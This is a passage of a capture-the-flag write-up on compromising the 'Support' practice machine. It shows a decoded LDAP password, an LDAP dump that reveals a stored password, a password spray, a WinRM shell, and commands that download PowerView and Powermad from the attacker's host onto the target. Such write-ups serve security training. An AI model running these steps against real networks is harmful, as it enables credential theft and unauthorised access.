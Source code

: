 Which gives as a result:

```bash
$ python password.py        
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

By listing ldap with the password, we can find an info field with a password:

```bash
$ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep info:
info: Ironside47pleasure40Watchful
```

We can abuse the name fields to create a dictionary and do a passwordspray

```bash
$ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep name: | sed 's/^name: //' | grep -vE 'D|C|A|U' > users.txt
                                                                                                                   
$ crackmapexec winrm 10.10.11.174 -u users.txt -p Ironside47pleasure40Watchful
SMB         10.10.11.174    5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [-] support.htb\krbtgt:Ironside47pleasure40Watchful
WINRM       10.10.11.174    5985   DC               [-] support.htb\ldap:Ironside47pleasure40Watchful
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

The user support is valid, so we connect with evil-winrm and we can read the flag. 

```bash
$ evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents> type ..\Desktop\user.txt
d9****************************0f
```

So we have the user flag!

## Getting root flag

Since we now have a valid user on the domain, we can perform bloodhound enum to find out the high value targets. We start by uploading PowerView.ps1 and Powermad.ps1 and importing them: 

```bash
*Evil-WinRM* PS C:\ProgramData> curl 10.10.14.5:8080/Powermad.ps1 -o Powermad.ps1
*Evil-WinRM* PS C:\ProgramData> curl 10.10.14.5:8080/PowerView.ps1 -o PowerView.ps1
*Evil-WinRM* PS C:\ProgramData> Import-Module .\Powermad.ps1
*Evil-WinRM* PS C:\ProgramData> Import-Module .\PowerView.ps1
```
